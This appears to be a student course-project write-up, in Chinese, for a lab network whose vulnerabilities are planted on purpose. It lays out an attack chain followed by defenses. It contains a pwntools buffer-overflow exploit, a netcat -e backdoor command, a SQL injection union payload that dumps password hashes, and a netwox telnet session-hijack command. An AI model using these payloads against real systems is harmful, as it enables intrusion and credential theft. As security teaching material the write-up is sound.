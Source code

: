 # 企业级网络的安全利用和漏洞

**ddl**：6.5日晚 20:00

### 设计要求

+ 设计一个企业级的网络拓扑： 
  + 网络中最少包含3台主机，分别为不同实体，如：攻击者、网关以及服务器 
  + 鼓励在网络拓扑中加入更多的主机，但要求网络中的每台主机均需对攻击或防 御有贡献
+ 在企业级网络内部署相应的服务，设计可以被（攻击者）利用的安全漏洞
+ 从攻击者的角度，利用网络中的安全漏洞，最少实现3类攻击 
  + 设计的攻击之间应具有关联性，由其构成的攻击链最终应为一个攻击目的服务 
  +  实现的攻击类型应为密码破解攻击、中间人攻击、缓冲区溢出攻击、网络扫描、 网络嗅探与欺骗攻击、Web漏洞利用中的几种 
  + 实现攻击的工具应为课程实验中学习的相关开源工具
+ 从网络管理者的角度，针对上述安全漏洞，设计并实施相应的防御措施

### 设计内容

#### 网络拓扑

<img src="大作业设计/image-20220530210324008.png" alt="image-20220530210324008" style="zoom:33%;" />



#### 环境配置

##### 网络配置

Attacker NAT网络 10.0.2.9

Zombie NAT网络  10.0.2.8

gateway NAT网络 内部网络 10.0.2.7 192.168.55.1

Server 内部网络 192.168.55.101

##### 其他

Server中使用mj修改的高端大气上档次的前端页面

相关配置

```
sudo cp -r front/ /var/www/
cd /etc/apache2/sites-available/
sudo gedit 000-default.conf
<VirtualHost *:80>
 ServerName http://www.Architectural-design.com
 DocumentRoot /var/www/Architectural-design
</VirtualHost>
```

修改SQLi.sql，添加以下语句(这个符号`也太鬼畜了)

```sql
DROP TABLE IF EXISTS `USER`;
CREATE TABLE `USER` (
	`ID` int(6) unsigned NOT NULL AUTO_INCREMENT,
	`Name` varchar(30) NOT NULL,
	`Password` varchar(300) NOT NULL,
	PRIMARY KEY (`ID`)
);

INSERT INTO `USER` VALUES (1,'admin','5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8'); # password的SHA1值
```

导入数据库

```sh
sudo mysql -u root
mysql> use elgg;
mysql> source SQLi.sql;
mysql> exit
```

启动APACHE服务

```
sudo service apache2 restart
```

Gateway中含有本次实验所要获取到文件资源(flag)

通过设置iptable和ipv4.forward使得外网主机能访问内网服务器

![image-20220531101000364](大作业设计/image-20220531101000364.png)

iptable配置

```
sudo iptables -t nat -A PREROUTING -p tcp -d 10.0.2.7 --dport 80 -j DNAT --to-destination 192.168.55.101:80
sudo iptables -t nat -A PREROUTING -d 172.20.10.5 -j DNAT --to-destination 192.168.58.100
```

Zombie主机修改/etc/hosts文件

```
[gateway_address]	www.Architectural-design.com
```

主机安装dirsearch

```sh
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
python3 dirsearch.py -u <URL> -e <EXTENSION>
```

使用方法

```
python3 dirsearch.py -u www.sql-injection.com/unsafe
```

Zombie主机启动网络后门

```sh
sudo apt-get install netcat-traditional
sudo update-alternatives --config nc
```

**部署缓冲区溢出攻击**

设置nc

```
sudo apt-get install netcat-traditional
sudo update-alternatives --config nc
```

将exploit部署到12345端口

```
nc -l -p 12345 -e exploit
```

attacker运行exp.py

```python
from pwn import *
p=remote('10.0.2.8',12345)
#p=process('.')

payload=b'\x00'*(0x88)+p64(0x400596)

p.send(payload)

p.interactive()
# 需安装pwntools pip3 install pwntools
```

**命令行浏览器w3m安装**

```
sudo apt install w3m w3m-img
```

示例

```
w3m baidu.com
```

#### 漏洞设计

1. SQLi漏洞
2. 弱口令
3. telnet会话劫持
3. 缓冲区溢出攻击

#### 攻击过程

1. 攻击者通过缓冲区溢出攻击获取Zombie主机控制权
2. Zombie对Web网站进行dirsearch扫描
3. 攻击者控制僵尸主机访问Web网站，实行SQLi攻击，获取数据库中口令文件内容
4. 攻击者利用僵尸主机ssh登录服务器，在服务器上进行nmap网络扫描
5. 攻击者利用僵尸主机在Server上进行Telnet会话劫持，读取gateway文件

#### 攻击步骤

1. 攻击者通过缓冲区溢出攻击获取Zombie的shell

首先Zombie在端口12345上开启服务，部署含有缓冲区溢出漏洞的程序

![image-20220604203128548](大作业设计/image-20220604203128548.png)

然后Attacker运行脚本文件，访问Zombie的12345端口，并通过缓冲区溢出攻击获得Zombie主机的控制权

![image-20220604203307182](大作业设计/image-20220604203307182.png)

2. 攻击者访问server网站，寻找可以进行sql注入的页面，并进行sql注入

3. 攻击者对获取的密码进行爆破，获取密码
4. 攻击者利用攻击者利用僵尸主机ssh登录服务器，在服务器上进行nmap网络扫描



##### SQLi

```sql
alic' union select 0,Name,Password,0,0,0,0,0,0,0,0 from USER #
```

##### telnet劫持

```
sudo netwox 40 --ip4-dontfrag --ip4-offsetfrag 0 \
--ip4-ttl 64 --ip4-protocol 6 \
--ip4-src 192.168.55.101 \
--ip4-dst 192.168.55.1 \
--tcp-src 48384 \
--tcp-dst 23 \
--tcp-seqnum 946645669 \
--tcp-acknum 1482793484 \
--tcp-ack --tcp-psh \
--tcp-window 501 \
--tcp-data "'cat flag'0d0a" \
--spoofip "best"
```

##### tshark

```
sudo tshark -i enp0s8 -f 'dst port 23 or src port 23' -V -T text -q
```

#### 防御措施

1. sql参数化查询防止sql注入

```php
$sql = $conn->prepare("SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
      FROM credential
      WHERE name= ? and Password= ?");
      $sql->bind_param("ss", $input_uname, $hashed_pwd);
      $sql->execute();
      $sql->bind_result($id, $name, $eid, $salary, $birth, $ssn, $phoneNumber, $address, $email, $nickname, $pwd);
```



2. 编译时增加栈保护机制来避免栈溢出攻击

```
gcc -o safe safe.c -fstack-protector-strong
```



3. 网关防火墙限制ssh连接服务器

```
sudo iptables -t filter -A FORWARD --destination 192.168.55.101 -p tcp --dport 22 -j REJECT
```


